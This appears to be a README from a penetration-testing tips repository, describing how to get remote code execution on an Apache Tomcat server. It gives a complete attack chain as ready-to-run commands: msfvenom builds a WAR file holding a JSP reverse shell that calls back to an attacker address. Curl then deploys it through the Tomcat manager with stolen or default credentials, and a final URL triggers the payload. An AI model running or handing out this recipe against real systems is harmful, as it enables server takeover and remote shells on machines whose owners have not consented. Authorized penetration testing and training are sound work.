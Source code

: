 # Pentips
Usefull penetration testing tips

##### Tomcat 
Deploy a new application archive (WAR) remotely without manager-gui role using curl.
<br/>Required roles : **manager-script** (tomcat-users.xml).
<br/>(By default, no user is included in the "manager-gui" role required to operate the "/manager/html" web application).

If the Host is configured with *unpackWARs=true* (server.xml) and you deploy a war file, it will be unpacked into a directory in your Host appBase directory.
<br/>   `<Host name="localhost"  appBase="webapps" unpackWARs="true" autoDeploy="true">`

In order to produce a new application archive (WAR) containing JSP reverse shell, you can use **msf-venom**.
<br/>`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=1234 -f war > rev.war`

Deploy new application archive (WAR) remotely using curl.
<br/>`curl -X PUT -T rev.war http://tomcat:password@10.10.10.50:8080/manager/text/deploy?path=/applicationname`

Access new application archive to execute the JSP payload.
<br/>`http://10.10.10.50:8080/applicationname/vnmsydlc.jsp`
